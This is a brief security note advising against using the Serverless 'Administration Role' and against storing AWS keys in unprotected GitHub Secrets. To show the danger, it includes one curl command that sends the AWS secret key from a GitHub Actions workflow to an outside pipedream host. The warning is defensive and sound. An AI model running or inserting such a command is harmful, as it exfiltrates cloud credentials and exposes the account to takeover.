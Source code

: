 # Serverless Deployment Policy
Sadly, this is not clearly mentioned in the Servless documentation. 
But **never use the "Administration Role" on Production!** 
Because if you get access to these access keys, 
you can easily create a new user with web console access and have full access to your AWS account.

I would even say never use this "Administration Role" for any AWS account, if you only 
store the keys in GitHub Secrets without using the GitHub Environment with the "Protected Branch" configuration.  

Because if you only store the keys in Github Secrets, 
any user who is allowed to commit to any branch can use Github Actions to send the keys to their own backend:

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

So use the Environments on GitHub Repository level to allow the keys only on certain branches.
